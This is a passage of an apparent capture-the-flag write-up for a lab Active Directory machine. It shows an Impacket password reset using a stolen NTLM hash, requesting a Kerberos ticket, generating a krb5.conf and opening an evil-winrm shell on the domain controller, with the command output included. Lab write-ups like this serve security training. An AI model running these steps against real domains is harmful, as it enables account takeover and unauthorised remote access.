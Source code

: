 Any tool that uses Impacket is likely to have this same issue.

Using `-p ldap` will change the password *and* the AES key, which avoids these issues:

```

oxdf@hacky$ changepasswd.py infiltrator.htb/m.harris@dc01.infiltrator.htb -althash :b02e97f2fdb5c3d36f77375383449e56 -reset -dc-ip dc01.infiltrator.htb -newpass '0xdf0xdf!' -altuser e.rodriguez -p ldap
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Setting the password of infiltrator.htb\m.harris as infiltrator.htb\e.rodriguez
[*] Password was changed successfully for CN=M.harris,CN=Users,DC=infiltrator,DC=htb

```

### Shell

I’ll need to use Kerberos. I’ll get a TGT:

```

oxdf@hacky$ getTGT.py 'infiltrator.htb/m.harris:0xdf0xdf!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in m.harris.ccache

```

I’ll need to update my `/etc/krb5.conf`, having `netexec` generate one for me with `netexec smb infiltrator.htb --generate-krb5-file infiltrator-krb5.conf`:

```

[libdefaults]
    dns_lookup_kdc = false
    dns_lookup_realm = false
    default_realm = INFILTRATOR.HTB

[realms]
    INFILTRATOR.HTB = {
        kdc = dc01.infiltrator.htb
        admin_server = dc01.infiltrator.htb
        default_domain = infiltrator.htb
    }

[domain_realm]
    .infiltrator.htb = INFILTRATOR.HTB
    infiltrator.htb = INFILTRATOR.HTB

```

Now I can `evil-winrm`:

```

oxdf@hacky$ KRB5CCNAME=m.harris.ccache evil-winrm -i dc01.infiltrator.htb -r infiltrator.htb
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\M.harris\Documents>

```
